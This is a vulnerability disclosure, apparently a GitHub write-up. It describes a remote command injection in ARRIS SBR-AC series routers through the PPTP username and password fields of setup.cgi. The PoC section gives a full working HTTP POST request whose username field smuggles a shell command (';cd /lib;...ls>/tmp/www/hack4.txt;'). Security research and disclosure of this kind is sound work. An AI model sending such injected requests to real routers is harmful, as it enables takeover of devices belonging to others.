

# ARRIS Vulnerability

Vendor:ARRIS

Product:SBR-AC1900P、SBR-AC3200P、SBR-AC1200P

Version:1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000REKViAAP&c=SURFboard%20Routers#panel4)

1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlajgAAB&c=SURFboard%20Routers#panel4)

1.0.5-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000RpnMpAAJ&c=SURFboard%20Routers#panel4)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `pptp` function, `pptpUserName、pptpPassword` is directly passed by the attacker, so we can control the `pptpUserName、pptpPassword` to attack the OS.

As you can see here, the input has not been checked.And then,call the function `scnvram_set` to store this input.

<div  align="center"></div>

<div  align="center"></div>

In `rc` binary:

As you can see here, in `sub_36330` function, the initial input has not checked and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

> Complete vulnerability verification on SBR-AC1900P product


## PoC

We set `pptpUserName` as **%27%3Bcd+%2Flib%3B%2Fusr%2Fsbin%2Fls%3E%2Ftmp%2Fwww%2Fhack4.txt%3B%27** , The meaning of this command is **';cd /lib;/usr/sbin/ls>/tmp/www/hack4.txt;'**，and the router will excute it,such as:

```http
POST /setup.cgi?id=07afc3a1 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1563
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/RgSetup.htm
Cookie: RebootType=1
Upgrade-Insecure-Requests: 1

wan_connection_type=6&getdnsautomatially_from_ISP=1&StaticWanIpAddressIP0=&StaticWanIpAddressIP1=&StaticWanIpAddressIP2=&StaticWanIpAddressIP3=&StaticWanIpMaskIP0=&StaticWanIpMaskIP1=&StaticWanIpMaskIP2=&StaticWanIpMaskIP3=&GatewayIpAddressIP0=&GatewayIpAddressIP1=&GatewayIpAddressIP2=&GatewayIpAddressIP3=&pppoeUserName=&pppoePassword=&pppoe_Service=&pppMtuSize=1492&pptpWanIpAddressIP0=192&pptpWanIpAddressIP1=168&pptpWanIpAddressIP2=0&pptpWanIpAddressIP3=10&pptpWanIpMaskIP0=255&pptpWanIpMaskIP1=255&pptpWanIpMaskIP2=255&pptpWanIpMaskIP3=0&pptpGatewayIpAddressIP0=192&pptpGatewayIpAddressIP1=168&pptpGatewayIpAddressIP2=0&pptpGatewayIpAddressIP3=1&l2tpWanIpAddressIP0=&l2tpWanIpAddressIP1=&l2tpWanIpAddressIP2=&l2tpWanIpAddressIP3=&l2tpWanIpMaskIP0=&l2tpWanIpMaskIP1=&l2tpWanIpMaskIP2=&l2tpWanIpMaskIP3=&l2tpGatewayIpAddressIP0=&l2tpGatewayIpAddressIP1=&l2tpGatewayIpAddressIP2=&l2tpGatewayIpAddressIP3=&PrimaryDnsIpAddressIP0=114&PrimaryDnsIpAddressIP1=114&PrimaryDnsIpAddressIP2=114&PrimaryDnsIpAddressIP3=114&SecondaryDnsIpAddressIP0=8&SecondaryDnsIpAddressIP1=8&SecondaryDnsIpAddressIP2=8&SecondaryDnsIpAddressIP3=8&pptpUserName=%27%3Bcd+%2Flib%3B%2Fusr%2Fsbin%2Fls%3E%2Ftmp%2Fwww%2Fhack4.txt%3B%27&pptpPassword=abc123&pptp_Server=192.168.0.1&pptpMtuSize=1436&l2tpUserName=&l2tpPassword=&L2tpServer=&l2tpMtuSize=1452&MtuSize=1500&SpoofedMacAddressMA0=BC&SpoofedMacAddressMA1=64&SpoofedMacAddressMA2=4B&SpoofedMacAddressMA3=A7&SpoofedMacAddressMA4=DF&SpoofedMacAddressMA5=51&ApplyRgSetupAction=1&WanLeaseAction=0&this_file=RgSetup.htm&next_file=RgSetup.htm
```

<div  align="center"></div>

<div  align="center"></div>


## Result

<div  align="center"></div>
